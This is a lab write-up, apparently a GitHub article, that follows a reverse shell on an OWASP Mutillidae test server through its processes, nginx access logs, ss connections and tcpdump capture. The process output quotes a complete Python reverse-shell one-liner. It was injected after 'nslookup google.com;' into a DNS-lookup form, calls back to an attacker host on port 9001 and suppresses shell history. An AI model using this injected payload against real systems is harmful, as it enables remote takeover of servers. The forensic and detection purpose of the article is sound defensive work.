



# Reverse Shell: Process – Log – Network

[🇮🇩 Read in Indonesian](reverse-shell-server-side.md)

In the previous article, I demonstrated how a reverse shell can be executed from the attacker's perspective (Red Team). In this article, I want to look at the same attack from the server's point of view. Instead of focusing on how the shell is obtained, I want to understand what happens inside the server after the attack succeeds.

This article documents a simple lab experiment to observe the artifacts left behind by a reverse shell. My goal is to answer a few basic questions:

- What processes are created?
- What logs are generated?
- What network connections are established?

As I continued experimenting in my lab, I became curious about what actually happens behind the scenes when a reverse shell is successfully established.

## Flow: What Happens on the Server?

```text
[ Browser (Attacker) ]
         │ HTTPS Request
         ▼
[ Nginx (Port 443) ]
         │ Forward Request
         ▼
[ PHP (www-data) ]
         │ Command Injection
         ▼
[ Operating System ]
         │ Execute Python
         ▼
[ Reverse Shell ]
         │ Outbound Connection
         ▼
[ Attacker Host ]
```

To investigate these activities, I used several built-in Linux utilities to observe the server while the attack was running.

### Process

The first thing I wanted to examine was the running process. During the attack, we can identify suspicious processes executed by the web server user.

```bash
# Display running Python processes
ps aux | grep -E 'python'
```

**Lab Output:**



```text
root         874  0.0  1.1 109688 23292 ?        Ssl  11:57   0:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
www-data    3861  0.0  0.0   2800  1852 ?        S    16:13   0:00 sh -c -- nslookup google.com; python3 -c 'import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.149",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close();'
www-data    3868  0.0  0.5  18648 11736 ?        S    16:13   0:00 python3 -c import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.149",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close();
root        3886  0.0  0.1   6544  2328 pts/4    S+   16:18   0:00 grep --color=auto -E python
```

*Analysis:* The output clearly shows that the `www-data` user, which normally runs the web service, executed the following command:

`nslookup google.com; python3 -c 'import os,pty,socket...'`

This confirms that the Command Injection vulnerability successfully executed a Python reverse shell connecting back to the attacker's machine (`10.10.10.149:9001`). The processes with PID 3861 and 3868 are strong indicators of suspicious activity because the web server should not normally execute an interactive Python shell.

### Log

Every request received by Nginx is recorded in the access log. Reviewing these logs helps identify which endpoint was targeted during the attack.



```bash
# Monitor incoming HTTP requests
tail -f /var/log/nginx/access.log
```

**Lab Output:**



```text
10.10.10.149 - - [26/Jun/2026:16:10:05 +0700] "POST /index.php?page=dns-lookup.php HTTP/1.1" 200 8771 "https://mutillidae.owasp.hacking/index.php?page=dns-lookup.php" "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
10.10.10.149 - - [26/Jun/2026:16:10:55 +0700] "POST /index.php?page=dns-lookup.php HTTP/1.1" 200 8773 "https://mutillidae.owasp.hacking/index.php?page=dns-lookup.php" "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
10.10.10.149 - - [26/Jun/2026:16:14:15 +0700] "POST /index.php?page=dns-lookup.php HTTP/1.1" 504 176 "https://mutillidae.owasp.hacking/index.php?page=dns-lookup.php" "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
```

*Analysis:* The access log shows multiple HTTP POST requests targeting `/index.php?page=dns-lookup.php` from the attacker's IP address (`10.10.10.149`).

This finding is consistent with the process observed earlier. The attacker abused the DNS Lookup functionality to inject additional commands, as shown by the `nslookup google.com` command inside the payload. Although the HTTP request itself appears legitimate, the server-side process reveals that arbitrary commands were executed after the request was processed.

### Network

One of the most recognizable characteristics of a reverse shell is an outbound connection initiated by the compromised server.

```bash
# Display active TCP connections
ss -tnp
```

**Lab Output:**


```text
State         Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process
...
ESTAB         0         0               10.10.10.2:49342       10.10.10.149:9001     users:(("python3",pid=3868,fd=3),("python3",pid=3868,fd=2),("python3",pid=3868,fd=1),("python3",pid=3868,fd=0))
...
```

*Analysis:* The output shows an `ESTABLISHED` TCP connection from the server (`10.10.10.2`) to the attacker's machine (`10.10.10.149`) on port `9001`. More importantly, the connection is owned by the `python3` process (PID 3868), matching the process identified in the previous step. This correlation confirms that the Python process is responsible for maintaining the reverse shell session.

To inspect the network traffic in more detail, I captured packets using `tcpdump`.

```bash
# Capture reverse shell traffic
sudo tcpdump -i any port 9001 -nn -A -l
```

**Lab Output:**


```text
16:13:15.687717 ens33 Out IP 10.10.10.2.49342 > 10.10.10.149.9001: Flags [P.], seq 1:49, ack 1, win 502, options [nop,nop,TS val 1701540689 ecr 1928400169], length 48
E..d..@.@..5


.


...#).....#......)......
eksQr..)www-data@server01:/var/www/hack/mutillidae/src$
```

*Analysis:* Because the reverse shell communication is transmitted without encryption, the session can be observed directly in plaintext. The packet capture reveals the interactive shell prompt: `www-data@server01:/var/www/hack/mutillidae/src$`. This confirms that the attacker successfully obtained an interactive shell on the target server.

---

## Conclusion

This simple investigation helped me understand what happens behind the scenes after a reverse shell is established.

By examining running processes, application logs, and network connections, I was able to correlate multiple pieces of evidence that describe the attack from the server's perspective. Rather than focusing only on how the attack works, observing the artifacts left behind provides valuable insight into how defenders can investigate suspicious activity.

One question naturally came to mind after completing this experiment:

*Can these indicators be detected automatically without manually checking processes, logs, and network connections?*

That question will be the starting point for the next article, where I plan to explore runtime detection using Falco.

## Learning Resources & References

**Tools & Utilities:**

- [tcpdump](https://www.tcpdump.org) — Network packet capture and analysis
- [ss](https://man7.org/linux/man-pages/man8/ss.8.html) — Display active socket connections
- [ps](https://man7.org/linux/man-pages/man1/ps.1.html) — Process monitoring
- [tail](https://man7.org/linux/man-pages/man1/tail.1.html) — Real-time log monitoring
- [grep](https://man7.org/linux/man-pages/man1/grep.1.html) — Filter process and log output

**Official Documentation:**

- [Nginx Documentation: Access Log](https://nginx.org/en/docs/http/ngx_http_log_module.html)
- [Python Documentation: socket module](https://docs.python.org/3/library/socket.html)
- [Python Documentation: pty module](https://docs.python.org/3/library/pty.html)

**MITRE ATT&CK:**

- [T1059: Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)
- [T1059.006: Python](https://attack.mitre.org/techniques/T1059/006/)
- [T1071: Application Layer Protocol](https://attack.mitre.org/techniques/T1071/)

Thank you for reading!

If you have any questions, feedback, or would like to discuss reverse shells or investigation techniques, feel free to open a discussion or create an issue in this repository.

Happy learning! 🔥
